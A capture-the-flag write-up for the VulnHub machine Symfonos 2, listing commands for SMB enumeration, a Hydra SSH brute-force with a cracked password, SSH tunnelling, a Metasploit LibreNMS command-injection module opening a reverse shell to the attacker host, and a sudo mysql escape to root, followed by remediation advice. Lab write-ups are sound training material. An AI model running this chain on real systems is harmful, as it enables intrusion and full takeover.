





# Symfonos: 2 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.102 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | `/root/proof.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/symfonos-2,331/) |

## Attack Summary

SMB anonymous share → `log.txt` leaks username `aeolus` → Hydra SSH brute-force (`aeolus:sergiotaemo`) → internal LibreNMS on localhost:8080 → Meterpreter port forward → LibreNMS command injection (MSF) → `sudo mysql` shell escape → root.

## Methodology

1. SMB enumeration: anonymous share contains a backup log with a username
2. SSH brute-force: Hydra cracks the password with rockyou
3. Internal service discovery: `netstat` shows LibreNMS on 127.0.0.1:8080
4. Port forwarding: expose LibreNMS to the attacker via Meterpreter
5. Exploitation: LibreNMS command injection module
6. Privilege escalation: sudo mysql shell escape

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.102
```

Open ports: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **139/445 (SMB)**.



---

## Step 2: SMB Enumeration

```bash
smbclient -L 192.168.1.102
smbclient //192.168.1.102/anonymous
```

```
smb: \> ls
smb: \> cd backups
smb: \backups\> get log.txt
```

`log.txt` contains filesystem backup output that reveals the username **aeolus**.



---

## Step 3: SSH Brute-Force

```bash
hydra -l aeolus -P /usr/share/wordlists/rockyou.txt 192.168.1.102 ssh
```

**Credentials found: `aeolus:sergiotaemo`**



```bash
ssh aeolus@192.168.1.102
```

---

## Step 4: Internal Service Discovery

After logging in as `aeolus`:

```bash
netstat -tlnp
```

Port **8080** is bound to `127.0.0.1` — not externally accessible. The service is **LibreNMS**.

---

## Step 5: Port Forwarding via SSH

```bash
# SSH tunnel exposing the internal LibreNMS to attacker port 1234
ssh -L 1234:127.0.0.1:8080 aeolus@192.168.1.102
```

Browse to `http://127.0.0.1:1234/` — LibreNMS login page.



Login with `aeolus:sergiotaemo`.

---

## Step 6: LibreNMS Command Injection

LibreNMS has a known command injection vulnerability in the "Add Device" functionality.

```bash
# In Metasploit
use exploit/linux/http/libre_addhost_cmd_inject
set rhosts 127.0.0.1
set rport 1234
set lhost 192.168.1.103
set username aeolus
set password sergiotaemo
exploit
```

Returns a Meterpreter session running as **librenms** user.

---

## Step 7: Privilege Escalation — sudo mysql

```bash
sudo -l
```

Output:
```
User librenms may run the following commands on symfonos2:
    (ALL) NOPASSWD: /usr/bin/mysql
```

Escape to shell via MySQL:

```bash
sudo mysql -e '\! /bin/sh'
```

```
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/proof.txt
```



---

## Lessons Learned

1. **Backup logs in SMB shares** often contain usernames, paths, and configuration that aid initial access.
2. **Weak SSH passwords** crackable with rockyou: enforce strong passwords or key-only authentication.
3. **Internal services on localhost** should not be accessible via SSH tunneling in production — restrict tunneling with `AllowTcpForwarding no`.
4. **LibreNMS command injection**: always patch web applications and run them as dedicated low-privilege users.
5. **sudo NOPASSWD for mysql**: any tool with shell escape becomes a root escalation path — audit sudo rules regularly.

## Remediation

| Vulnerability | Fix |
|---|---|
| SMB backup log exposure | Remove sensitive backups from unauthenticated shares |
| Weak SSH password | Enforce strong passwords; prefer key-based auth |
| SSH tunneling to internal services | Set `AllowTcpForwarding no` in `sshd_config` |
| LibreNMS RCE | Patch to latest version; run under dedicated user |
| sudo mysql NOPASSWD | Remove or restrict; use principle of least privilege |
